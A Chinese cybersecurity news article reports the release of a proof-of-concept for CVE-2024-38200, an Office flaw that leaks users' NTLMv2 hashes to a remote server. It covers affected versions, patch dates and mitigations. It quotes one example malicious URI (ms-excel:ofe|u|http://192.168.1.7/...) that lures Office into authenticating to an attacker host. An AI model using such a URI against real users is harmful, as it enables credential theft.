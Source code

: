 #  研究人员披露微软 Office 漏洞（CVE-2024-38200） 技术细节，发布PoC代码   
会杀毒的单反狗  军哥网络安全读报   2024-10-04 09:01  
  
**导****读**  
  
  
  
安全研究人员发布了针对最近披露的
Microsoft Office 漏洞CVE-2024-38200的概念验证 (PoC) 代码，该漏洞可能允许攻击者捕获用户的 NTLMv2 哈希值。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/AnRWZJZfVaEnqpSvfJEoW28rBkxe1dMvMGuZSecicfaFvAvQ898sedBaibzw9uM3iaqicT7SSibL9AXe1uz5LXw8Pgw/640?wx_fmt=jpeg&from=appmsg "")  
  
  
此高严重性漏洞影响
Microsoft Office 的多个版本，包括 Office 2016、Office 2019、Office LTSC 2021 和 Microsoft
365 企业版应用。  
  
  
该漏洞最初由
PrivSec Consulting 的 Jim Rush 和 Synack 红队的 Metin Yunus Kandemir
报告，允许攻击者从受害者的系统发起到攻击者控制的远程服务器的出站 NTLM 连接。  
  
  
当发生此连接时，Windows
会自动将用户的NTLM 哈希（包括哈希密码）发送到攻击者的服务器。  
  
  
在 GitHub
上发布的 PoC 漏洞演示了如何使用 Office URI Schemes 利用该漏洞。  
  
  
通过制作特殊格式的
URI（例如   
ms-excel:ofe|u|http://192.168.1.7/leak.xlsx），攻击者可以诱骗 Office
应用程序访问远程文件而不触发任何警告。这允许通过 SMB 和 HTTP 协议捕获 NTLMv2 哈希。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/AnRWZJZfVaEnqpSvfJEoW28rBkxe1dMvZacVEEa0FGpZo7URUHqeDvaE05FiaCwyQdCrb95mDfZlt5YvPibYtPBQ/640?wx_fmt=png&from=appmsg "")  
  
  
研究人员指出，当与“Internet
属性”中的某些组策略对象 (GPO) 配置结合时，该漏洞尤其危险。  
  
  
如果应用特定设置，例如将
IP 范围添加到受信任的站点或启用用户身份验证的自动登录，  
Office 应用程序将自动执行 NTLM 身份验证，从而使利用变得更加容易。  
  
  
微软于 2024 年
7 月 30 日通过 Feature Flighting 发布了部分修复，最终补丁于 2024 年 8 月 13 日发布。  
  
  
安全专家建议采取几种缓解措施，包括限制到远程服务器的传出
NTLM 流量、将用户添加到受保护用户安全组以及阻止来自端口 TCP 445 的出站流量。  
  
  
该漏洞 PoC
的发布凸显组织安装补丁并实施缓解措施的紧迫性。  
  
  
安全专家提醒人们注意与
NTLM 身份验证相关的持续风险，微软已正式弃用该身份验证，转而采用 Kerberos 等更安全的替代方案。  
  
  
随着威胁形势的不断演变，系统管理员和安全专业人员必须随时了解新出现的漏洞，并及时采取行动，保护他们的网络和用户免受利用
CVE-2024-38200 等漏洞的潜在攻击。  
  
  
**链接：**  
  
https://cybersecuritynews.com/poc-exploit-office-0-day-flaw/  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/AnRWZJZfVaGC3gsJClsh4Fia0icylyBEnBywibdbkrLLzmpibfdnf5wNYzEUq2GpzfedMKUjlLJQ4uwxAFWLzHhPFQ/640?wx_fmt=jpeg&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
扫码关注  
  
军哥网络安全读报  
  
**讲述普通人能听懂的安全故事**  
  
